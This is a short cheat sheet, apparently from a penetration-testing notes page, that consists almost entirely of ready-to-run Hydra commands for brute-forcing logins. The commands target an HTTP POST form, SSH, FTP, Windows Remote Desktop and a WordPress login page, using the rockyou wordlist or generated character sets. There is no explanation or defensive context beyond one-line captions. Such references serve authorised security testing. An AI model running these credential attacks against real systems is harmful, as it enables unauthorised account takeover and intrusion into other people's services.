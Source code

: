 ### Hydra

Crack an HTTP POST web form login:

```fundamental

hydra -o hydra_results.txt -l admin -P rockyou.txt somesite.com -s nonstandardport http-post-form '/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed!'

```


Crack a Secure Shell login:

```fundamental

hydra -o hydra_results.txt -L users.txt -P rockyou.txt 192.168.8.5 ssh

```

Brute force attack:
```fundamental

hydra -o hydra_results.txt -l admin -x 4:4:aA1\!\"\#\$\% 192.168.8.5 ftp

```



Attack a Windows Remote Desktop with a password list.
```
hydra -t 1 -V -f -l <username> -P <wordlist> rdp://<ip>
``` 


Craft a more specific request for Hydra to brute force.
```
hydra -l <username> -P .<password list> $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'
```